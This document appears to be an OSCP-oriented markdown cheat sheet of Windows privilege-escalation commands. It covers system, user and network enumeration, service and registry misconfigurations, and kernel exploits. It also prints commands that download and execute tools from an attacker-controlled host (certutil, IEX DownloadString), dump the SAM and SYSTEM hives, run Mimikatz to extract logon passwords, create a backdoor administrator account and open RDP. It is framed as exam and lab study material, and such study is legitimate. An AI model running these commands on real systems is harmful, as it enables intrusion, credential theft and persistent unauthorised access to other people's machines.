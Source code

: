 # Windows Privilege Escalation

Essential techniques for escalating privileges on Windows systems during OSCP.

## Quick Enumeration

### System Info
```powershell
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

### User Info
```powershell
whoami /all
net user
net localgroup Administrators
```

### Network Info
```powershell
ipconfig /all
netstat -ano
netsh advfirewall show currentprofile
```

## Common Vectors

### Unquoted Service Paths
```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\"
```

### Weak Service Permissions
```powershell
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc <SERVICE_NAME>
```

### AlwaysInstallElevated
```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
```

## Automated Tools

### WinPEAS
```powershell
certutil -urlcache -f http://YOUR_IP/winpeas.exe winpeas.exe
winpeas.exe
```

### PowerUp
```powershell
IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/PowerUp.ps1')
Invoke-AllChecks
```

## Kernel Exploits

### Common Exploits
- MS16-032 (Secondary Logon)
- MS16-135 (Win32k.sys)
- MS17-010 (EternalBlue)

### Check Patch Status
```powershell
systeminfo | findstr "KB3139914 KB3140721"
```

## Credential Hunting

### SAM Database
```powershell
reg save HKLM\SAM sam.bak
reg save HKLM\SYSTEM system.bak
# Transfer and extract with pwdump.py
```

### Mimikatz
```powershell
privilege::debug
sekurlsa::logonpasswords
```

## Post-Exploitation

### Add Admin User
```powershell
net user hacker P@ssw0rd /add
net localgroup administrators hacker /add
```

### Enable RDP
```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```

## Quick Checks
1. **Services**: Unquoted paths, weak permissions
2. **Scheduled Tasks**: Misconfigurations
3. **Registry**: Auto-runs, AlwaysInstallElevated
4. **Files**: Passwords in configs, backups
5. **Kernel**: Missing patches

## Practice
- HTB: Blue, Legacy
- TryHackMe: Windows Privesc
